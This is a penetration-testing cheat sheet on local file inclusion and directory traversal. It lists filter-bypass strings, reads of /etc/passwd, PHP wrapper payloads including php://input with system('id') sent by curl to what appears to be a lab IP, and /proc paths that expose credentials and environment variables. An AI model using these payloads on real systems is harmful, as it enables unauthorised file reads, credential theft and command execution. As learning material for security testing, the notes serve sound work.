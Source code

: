 # File Inclusion / Directory Traversal

[Hacktricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion)

[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

[Blog](https://www.netspi.com/blog/technical/web-application-penetration-testing/directory-traversal-file-inclusion-proc-file-system/) The Proc File System

## LFI

```
 /etc/passwd on Linux or C:\Windows\boot.ini on Windows
 #if input from parameters used as part of filenames
 we can bypass by adding /../ in the
  
 # if Blacklisting is not coded correctly
 ..././ and ....// would become ../ vice vers sa
 cat .?/.*/.?/etc/passwd.
 Bash allows for for the ? and * wildcards to be used as wildcard
 
 #On PHP versions 5.3.4 and earlier, string-based detection could be bypassed by URL encoding the payload. 
 The characters ../ can be URL encoded into %2e%2e%2f, which will bypass the filter.
```

PHP provides various wrappers, which can be used for easier access to files, protocols, or streams. A list of wrappers can be found [here](https://www.php.net/manual/en/wrappers.php.php). The `php://` wrapper is enabled by default and interacts with IO streams.

PHP filter to convert file contents to Base64

```
 php://filter/read=convert.base64-encode/resource=/etc/passwd
 #we can get the source code and decode it
 curl http://134.209.184.216:32391/extension/index.php?language=php://filter/read=convert.base64-encode/resource=config
```



### PHP filter to convert file contents to ROT13

```
php://filter/read=string.rot13/resource=/etc/passwd
```

### Command execution with PHP `Expect` wrapper

```
expect://id
```

#### Using PHP `Input` wrapper for command execution

```
curl -s -X POST --data "<?php system('id'); ?>" "http://134.209.184.216:30084/index.php?language=php://input"
```

### Command execution with the PHP `Zip` wrapper

```
zip://malicious.zip%23exec.php&cmd=id
```

## The Proc File System

| Directory                       | Description                                                                                                                                                                                        |
| ------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| /proc/sched\_debug              | This is usually enabled on newer systems, such as RHEL 6.  It provides information as to what process is running on which cpu.  This can be handy to get a list of processes and their PID number. |
| /proc/mounts                    | Provides a list of mounted file systems.  Can be used to determine where other interesting files might be located                                                                                  |
| /proc/net/arp                   | Shows the ARP table.  This is one way to find out IP addresses for other internal servers.                                                                                                         |
| /proc/net/route                 | Shows the routing table information.                                                                                                                                                               |
| /proc/net/tcp and /proc/net/udp | Provides a list of active connections.  Can be used to determine what ports are listening on the server                                                                                            |
| /proc/net/fib\_trie             | This is used for route caching.  This can also be used to determine local IPs, as well as gain a better understanding of the target’s networking structure                                         |
| /proc/version                   | Shows the kernel version.  This can be used to help determine the OS running and the last time it’s been fully updated.                                                                            |



| Directory            | Description                                                                                                                                                                           |
| -------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| /proc/\[PID]/cmdline | Lists everything that was used to invoke the process. This sometimes contains useful paths to configuration files as well as usernames and passwords.                                 |
| /proc/\[PID]/environ | Lists all the environment variables that were set when the process was invoked.  This also sometimes contains useful paths to configuration files as well as usernames and passwords. |
| /proc/\[PID]/cwd     | Points to the current working directory of the process.  This may be useful if you don’t know the absolute path to a configuration file.                                              |
| /proc/\[PID]/fd/\[#] | Provides access to the file descriptors being used.  In some cases this can be used to read files that are opened by a process.                                                       |
